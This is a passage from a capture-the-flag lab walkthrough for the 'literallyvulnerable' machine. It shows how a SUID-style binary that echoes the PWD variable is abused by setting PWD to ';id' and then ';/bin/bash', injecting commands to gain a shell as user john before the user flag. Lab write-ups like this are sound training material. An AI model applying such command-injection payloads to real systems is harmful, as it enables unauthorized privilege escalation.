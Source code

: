 ```
getegid@@GLIBC_2.2.5
__bss_start
asprintf@@GLIBC_2.2.5
main
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
www-data@literallyvulnerable:/home/doe$ ./itseasy
./itseasy
Your Path is: /home/doe
```

Looks like the executable performs the following:

```/bin/echo Your Path is: pwd```

After some trial an error results below were achieved.

```
www-data@literallyvulnerable:id$ ./itseasy
./itseasy
Your Path is: id
www-data@literallyvulnerable:id$ export PWD=';id'
export PWD=';id'
www-data@literallyvulnerable:;id$ ./itseasy
./itseasy
Your Path is:
uid=1000(john) gid=33(www-data) groups=33(www-data)
www-data@literallyvulnerable:;id$ export PWD=';/bin/bash'
export PWD=';/bin/bash'
```

#### User Flag

After getting access to john’s account the user flag was obtained.

```
www-data@literallyvulnerable:;/bin/bash$ ./itseasy
./itseasy